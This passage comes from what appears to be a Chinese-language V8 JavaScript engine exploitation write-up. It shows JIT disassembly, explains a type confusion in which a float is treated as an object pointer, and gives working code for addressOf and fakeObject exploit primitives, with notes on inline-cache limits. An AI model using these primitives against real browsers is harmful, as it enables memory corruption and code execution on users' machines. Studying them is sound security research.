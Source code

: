 ```
0x1c8800bc2b80    60  48b9b9a678b713050000 REX.W movq rcx,0x513b778a6b9    ;; object: 0x0513b778a6b9 &lt;Map(HOLEY_ELEMENTS)&gt;
0x1c8800bc2b8a    6a  48394aff       REX.W cmpq [rdx-0x1],rcx
0x1c8800bc2b8e    6e  0f8541000000   jnz 0x1c8800bc2bd5  &lt;+0xb5&gt;
0x1c8800bc2b94    74  488b5217       REX.W movq rdx,[rdx+0x17]
0x1c8800bc2b98    78  488b4217       REX.W movq rax,[rdx+0x17]
0x1c8800bc2b9c    7c  488be5         REX.W movq rsp,rbp
0x1c8800bc2b9f    7f  5d             pop rbp
```

继续运行，发现发生了类型混淆，1.1被当成一个对象地址，然后取出了一个对象

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01164ed66425905e2a.png)

由此，我们可以构造如下两个原语

```
function addressOf(obj) `{`
   var obj1 = `{`a:`{`b:1.1`}``}`;
   let f = eval(`(obj1)=&gt;`{`
      return obj1.a.b;
   `}``);
   for (var i=0;i&lt;0x20000;i++) `{`
      f(obj1);
   `}`
   obj1.a = `{`c:obj`}`;
   var addr = f(obj1);
   return u64f(addr) - 1n;
`}`

function fakeObject(addr) `{`
   var obj2 = `{`x:`{`y:buf`}``}`;
   let f = eval(`(obj2)=&gt;`{`
      return obj2.x.y;
   `}``);
   for (var i=0;i&lt;0x20000;i++) `{`
      f(obj2);
   `}`
   obj2.x = `{`z:i2f64(addr + 0x1n)`}`;
   return f(obj2);
`}`
```

### <a class="reference-link" name="%E6%B3%A8%E6%84%8F%E4%BA%8B%E9%A1%B9"></a>注意事项

由于`ICS`缓存机制的原因，上述两个原语仅能使用`一次`，因为调用后，里面的字典对象相关信息会被缓存，因此想要多次利用的话，需要构造多个原语函数，并且每个函数里的字典对象的key互不相同，这里，我们也可以看到，在`addressOf`里面，我们用的是`var obj1 = `{`a:`{`b:1.1`}``}`;`，而在fakeObj里面，我们用的是`var obj2 = `{`x:`{`y:buf`}``}`;`


